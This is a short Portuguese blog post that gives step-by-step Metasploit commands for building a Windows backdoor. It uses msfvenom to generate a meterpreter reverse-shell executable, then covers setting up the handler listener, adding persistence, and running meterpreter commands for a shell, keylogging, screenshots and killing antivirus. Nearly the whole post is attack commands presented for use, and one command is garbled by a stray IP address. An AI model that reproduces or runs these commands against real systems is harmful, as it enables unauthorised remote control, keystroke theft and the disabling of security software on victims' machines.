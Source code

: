 ```yaml
---
layout: post
title: Criando BackDoor no Windowns
date: 2016-07-12T14:54:44.000Z
---
```

<img src='/images/fulls/back.jpg'>

-Comandos para criar a backdoor:
#msfvenom -p windows/meterpreter/reverse_tcp 192.168.0.104LHOST=(SeuIP) LPORT=443 -f exe > /root/Desktop/shell.exe 

-Comandos para configurar o modo Listening:
#msfconsole
#use exploit/multi/handler
#set payload windows/meterpreter/reverse_tcp
#set lhost (Seu IP)
#set lport 443

exploit

-Comando manutenção de acesso:

#run persistence -A -X -i 60 -p 443 -f (Seu IP)

Comandos do  meterpreter pra brinca 

Para obter ajuda das funções do Meterpreter.
meterpreter > help 

Para finalizar a sessão e sair do Meterpreter.
meterpreter > exit

Ás vezes sera necessauro manter a sessão ativa do Meterpreter  para outras finalidades ,para usar um modulo auxiliar por exemplo.
metrpreter > background

Migrar para outro processo:
meterpreter > run migrate -f

Obter shel.
meterpreter > shell

Executar um arquivo .
execute -f calc.exe

Keylogger.

meterpreter > keyscan_start INICIA O KEYLOGGER
meterpreter > keyscan_dump EXIBE AS TECLAS DIGITADAS
meterpreter > keyscan_stop FINALIZA O KEYLOGGER

Captura de tela.

meterpreter > screenshot

Finalizar processo de antivirus.

meterpreter > run killav

<a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">Mais comandos.</a>


